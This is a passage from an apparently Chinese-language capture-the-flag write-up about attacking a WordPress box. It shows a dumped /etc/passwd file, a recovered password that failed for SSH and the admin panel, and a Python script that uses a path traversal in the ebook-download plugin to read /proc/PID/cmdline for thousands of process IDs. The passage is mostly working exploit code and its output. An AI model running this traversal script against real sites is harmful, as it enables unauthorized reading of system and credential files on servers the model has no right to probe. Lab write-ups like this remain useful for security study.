 ```
define( 'DB_COLLATE', '' );
```

`/etc/passwd`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
```

尝试用`MQYBJSaD#DxG6qbm`去登录ssh和登录后台均失败

`hello.php`没啥用的插件...

尝试去爆破`/proc/xxx/cmdline`

```python
import requests

headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36 Edg/92.0.902.62'}
url="http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../../../proc/%s/cmdline"

for i in range(50000):
    r=requests.get(url=url%str(i),headers=headers)
    cmdline=r.text[r.text.index('cmdline',100)+7:r.text.index('<script>window.close()</script>')]
    if cmdline=='':
        continue
    else:
        print(i,cmdline)
```
